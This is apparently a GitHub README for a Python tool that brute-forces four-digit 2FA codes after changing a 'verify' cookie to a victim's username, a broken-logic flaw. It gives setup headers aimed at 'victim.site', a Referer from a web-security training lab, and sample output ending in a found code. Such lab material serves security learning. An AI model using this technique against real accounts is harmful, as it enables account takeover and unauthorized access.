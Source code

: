 # 2fa-brute-force-broken-logic

This script is designed to exploit a flawed logic in two-factor authentication (2FA). In the first login step, the system generates a session cookie related to the user before proceeding to the second step. When submitting the verification code, the request uses this cookie to determine which account the user is trying to access. An attacker could potentially log in using their own credentials and then manipulate the account cookie value to any arbitrary username when submitting the verification code.
You'll need to have Python 3 installed on your machine to run the script. 

The 2FA code is a 4-digit number generated within the range of 0000 to 9999 and passed to `try_login` function.

You need to update the global variable `url` with the victim's website URL, as well as the `Host` and `Cookie` parameters in the `headers`variable of the request.

```bash
url = "https://victim.site/login-mfa-checker"
headers = {
    "Host": "victim.site",
    "Cookie": "verify=victim-username; session=ZhugKKwGb7WkNjG5GnDwjirYXSKnpAHN",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
    "Referer": "https://0a32008a03e6370c83a141b3005f0065.web-security-academy.net/login2",
}
```

## Output Example

```python
Attempt with code 5854 - Status Code: 200
Attempt with code 5893 - Status Code: 200
Attempt with code 5855 - Status Code: 200
...
...
Attempt with code 6124 - Status Code: 302
Successful login with code: 6124
Valid code found: 6124
```
